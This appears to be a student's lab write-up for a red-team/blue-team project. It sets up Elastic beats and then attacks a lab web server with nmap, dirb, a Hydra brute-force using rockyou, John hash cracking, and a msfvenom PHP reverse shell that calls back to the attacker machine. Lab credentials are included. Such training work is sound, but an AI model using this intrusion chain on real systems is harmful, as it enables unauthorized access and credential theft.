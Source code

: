 # Project 2
## RedTeam vs. BlueTeam


### Devices
- Kali
- Capstone
- Elk 

### Set Up Beats 
Need to set up beats in order to log the attacks. 

Steps to set up:
 - Log into Capstone
   - ```vagrant:tnargav```
 - ```sudo su```
 - ```filebeat modules enable apache```
 - ```filebeat setup```
 - ```metricbeat modules enable apache```
 - ```metricbeat setup```
 - ```packetbeat setup```
 - ```systemctl restart filebeat```
 - ```systemdtl restart metricbeat```
 - ```systemctl restart packetbeat```
  

### Attacking Capstone
- Determine capstone ip
  - First find kali ip
    - ```ifconfig```
    - 192.168.1.90
  - Run nmap against 192.168.1.1/24 
    - ```nmap 192.168.1.1/24```
    - Did not give enough information to determine what machine is which
    - ![](Img/nmap1.png)
    - ```nmap -sV 192.168.1.1/24```
      - 192.168.1.100 
        - Elastic Search | Ubuntu
      - 192.168.1.105
        - Apache | Ubuntu
      - ![](Img/nmap2.png)
- Open http://192.168.1.105
  - Try to find "secret" page
    - ```dirb http://192.168.1.105```
      - Returned
        - http://192.168.1.105/server-status
          - Access Forbidden
        - http://192.168.1.105/webdav
          - Username:Password Protected
    - ```dirb http://192.168.1.105/company_folders```
      - Returned 0
    - Scrolled through pages
      - Error file missing please refer to company_folders/secret_folder
       ![](/Img/web4.png)
- Run Hydra against http://192.168.1.105/company_folders_secret_folder
  - Find Wordlist
    - ```locate rockyou```
  - ```cd /usr/share/wordlists```
  - ```ls```
  - ```gunzip rockyou.txt.gz```
  - ```ls```
    - to verify successful unzip
  - ```hydra help```
    - To see all avaliable flags
  - Ashton manages secret folder
    - Means username is ashton 
  - ``` hydra -l ashton -P rockyou.txt -s 80  -f -vV 192.168.1.105 http-get /company_folders/secret_folder ```
    - ```ashton:leopoldo```
     ![](/Img/hydra2.png)
- Open connect to corp server
  - webdav
  - log in with ryans account
  - ryan password hash ``` d7dad0a5cd7c8376eeb50d69b3ccd352 ```
  - ``` echo d7dad0a5cd7c8376eeb50d69b3ccd352 > hash.txt ```
  - ```john hash.txt```
  - ```john -show hash.txt ```
    - ```ryan:linux4u```
- Upload reverse php to webdav
  - ```msfvenom -p php/reverse_php LHOST=192.168.1.90 LPORT=4445 -f raw > exploit.php```
    ![](Img/msfvenom1.png)
- Create Listener
  - ```msf console```
    - ```use exploit multi/handler```
    - ``` set LHOST 192.168.1.90```
    - ``` set LPORT 4445```
    - ```set exploit php/reverse_php```
    - ```exploit```
     ![](Img/msfvenom2.png)
- Open exploit.php in web to run on remote server
- Meterpreter session
  - ```cd /```
  - ```ls```
  - ```cat flag.txt```
   ![](Img/flag.txt)